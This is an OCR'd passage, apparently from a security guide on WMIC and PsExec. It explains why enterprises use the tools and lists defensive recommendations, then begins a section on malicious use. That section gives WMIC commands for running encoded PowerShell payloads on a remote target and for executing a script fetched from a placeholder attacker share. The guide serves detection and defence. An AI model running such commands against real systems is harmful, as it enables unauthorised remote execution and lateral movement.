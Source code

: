 ### **5. Why Enterprises Use These Tools**

- **Efficiency**: They allow administrators to execute tasks across multiple systems simultaneously.
- **Versatility**: Can handle a variety of administrative tasks without requiring installation of agents or additional software.
- **Low Overhead**: Lightweight tools with no major impact on system resources.

---

### **6. Security Recommendations for Legitimate Usage**

1. **Authentication & Access Control**:

- Restrict tool usage to privileged accounts.
- Enforce Multi-Factor Authentication (MFA) for administrative sessions.
2. **Logging and Monitoring**:

- Enable detailed logging for process creation and network connections.
- Configure alerts for unusual usage patterns (e.g., PsExec being run from non-admin accounts).
3. **Limit Exposure**:

- Use jump servers for remote administrative access.
- Block unnecessary lateral communication via firewall rules.
4. **Tool Alternatives**:

- Use modern endpoint management tools (e.g., SCCM, Ansible, or Intune) for tasks like patching and diagnostics.

By understanding legitimate uses of WMIC and PsExec, you can establish a baseline for normal activity, making it easier to spot anomalies that might indicate malicious use.

<div class="neon-line"></div>

# Now, onto the malicious actions

### **2. Common Malicious Techniques**

#### **2.1 WMIC**

1. **Remote Command Execution:**

- Attackers execute malicious commands or scripts remotely:

```shell
wmic /node:"<target_ip>" /user:"<username>" process call create "cmd.exe /c powershell.exe -encodedCommand <encoded_payload>"
```

2. **Payload Delivery:**

- Dropping payloads using network shares or UNC paths:

```shell
wmic /node:"<target_ip>" /user:"<username>" process call create "powershell -ExecutionPolicy Bypass -File \\<attacker_ip>\share\payload.ps1"
```
